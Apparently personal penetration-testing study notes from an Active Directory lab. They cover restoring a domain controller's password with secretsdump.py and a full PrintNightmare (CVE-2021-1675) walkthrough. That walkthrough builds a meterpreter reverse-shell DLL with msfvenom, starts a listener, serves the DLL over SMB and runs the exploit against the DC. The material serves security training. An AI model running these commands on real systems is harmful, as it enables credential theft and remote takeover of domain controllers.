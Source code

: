 <span style="background:#fff88f">How to restore to the previous password:</span>
- copy the entire Administrator hash
- `secretsdump.py administrator@<domain controller IP> -hashes <hash>`
- search in the result -->  `MARVEL\HYDRA-DC$: plain_password_hex`
- copy this value
- `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip <domain controller IP> -hexpass <the previous copied value>`
  ![[Pasted image 20240304152955.png]]
- <span style="color:#00b050">password restored</span>

#### PrintNightmare (CVE-2021-1675)
#AD_tool
This is a -->  post compromised attack

This attack takes advantage of -->  <span style="color:#00b050">printer spooler</span>
bc it allows:
users to add printers that run as -->  <span style="color:#00b050">system privilege</span> 
=>
any authenticated attacker can -->  <span style="color:#00b050">code execution</span>

First thing:
- the steps are described in this [repo](https://github.com/cube0x0/CVE-2021-1675)
- check if the victim domain is vulnerable:
  `rpcdump.py @<domain controller IP> | egrep 'MS-RPRN|MS-PAR'`
  ![[Pasted image 20240304153716.png]]
  if we obtain this =>  <span style="color:#00b050">domain controller is vulnerable</span>

=>
##### Update/install Impacket
to run the attack:
- update impacket
	- `pip3 uninstall impacket`
	- `git clone https://github.com/cube0x0/impacket`
	- `cd impacket`
	- `python3 ./setup.py install`
	  
- from the repo below:
	- copy the code in the `CVE-2021-1675.py`
	- save it locally inside the impacket folder

- we need to create a malicious DLL and host it:
	- create a malicious DLL:
		- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attacker IP> LPORT=5555 -f dll > shell.dll`
	- set up the listener:
		- `msfconsole`
		- `use multi/handler`
		- `options`
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `set LPORT 5555`
		- `set LHOST LHOST=<attacker IP>`
		- run
	- set up a file share:   (we need to share the shell.dll)
		- `smbserver.py share 'pwd'`
=>
we have set up everything
Now:
<span style="background:#fff88f">we need only to run the attack:</span>
- go inside the impacket folder
- `python3 CVE-2021-1675.py marvel.local/fcastle:Password1@<domain controller IP> \\<attacker IP (to go the file share)\share\shell.dll> `
> [!warning] if it fails
> set up the file share with the `-smb2support` option
> =>